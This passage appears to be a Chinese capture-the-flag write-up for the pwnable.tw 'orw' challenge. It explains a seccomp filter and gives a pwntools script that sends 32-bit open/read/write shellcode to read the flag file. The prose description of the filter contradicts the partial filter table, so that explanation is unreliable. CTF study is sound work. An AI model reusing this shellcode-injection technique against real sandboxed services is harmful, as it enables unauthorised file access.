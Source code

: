 拿本题的sock_filter结构体说明一下：

```c
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0x40000003  if (A != ARCH_I386) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0008: 0x15 0x02 0x00 0x00000003  if (A == read) goto 0011
 0010: 0x06 0x00 0x00 0x00050026  return ERRNO(38)
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

line 1表示这道题需要运行在架构不为i386的机器或环境中，否则直接返回ERROR。

line 8表示如果传入的系统调用号为read，则允许执行，否则直接结束进程。

# 开始解题
经过前面的分析我们已经知道了此题只能使用只能使用 read、write、_exit、open。

老规矩，检查一下文件的保护机制：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610162110535-74f87059-815b-4b95-ab5e-aeed46622f75.png)

可以看到程序为32位，只开启了NX保护。main函数如下：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610185576584-3a5fd389-871a-47af-82f0-c468a95f275a.png)

很简单，输入shellcode之后程序就会执行它。

还有一个问题，system和execve都被禁用了怎么办？

读取flag的方式有很多，虽然无法拿到shell，但是我们可以用open、read、write三个系统调用去读flag，flag放在了/home/orw/flag。

同时题目已经给予了这个提示：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610197208999-c565bb71-5605-4bd1-a569-e00fcd225d86.png)

因此这里考验我们直接编写shellcode的能力，这里注意

• 对于32位程序，应调用int $0x80进入系统调用，将系统调用号传入eax，各个参数按照ebx、ecx、edx的顺序传递到寄存器中，系统调用返回值储存到eax寄存器。

• 对于64位程序，应调用syscall进入系统调用，将系统调用号传入rax，各个参数按照rdi、rsi、rdx的顺序传递到寄存器中，系统调用返回值储存到rax寄存器。

由于这道题是32位程序，因此编写shellcode如下：

```python
from pwn import *
context.log_level="debug"
p = remote('chall.pwnable.tw', 10001)

shellcode_open = 'xor eax,eax;xor ebx,ebx;xor ecx,ecx;xor edx,edx;push 0x00006761;push 0x6c662f77;push 0x726f2f65;push 0x6d6f682f;mov ebx,esp;mov eax,0x5;int 0x80;'
shellcode_read = 'mov ebx,eax;mov ecx,0x0804A260;mov edx,0x40;mov eax,0x3;int 0x80;'
shellcode_write = 'mov ebx,0x1;mov ecx,0x0804A260;mov edx,0x40;mov eax,0x4;int 0x80;'
shellcode = shellcode_open + shellcode_read + shellcode_write
shellcode = asm(shellcode)
p.recvuntil(':')
p.sendline(shellcode)
print p.recv()
p.interactive()

'''
shellcode说明：                   
xor eax,eax      ;清空需要用到的寄存器
xor ebx,ebx
xor ecx,ecx
xor edx,edx

```
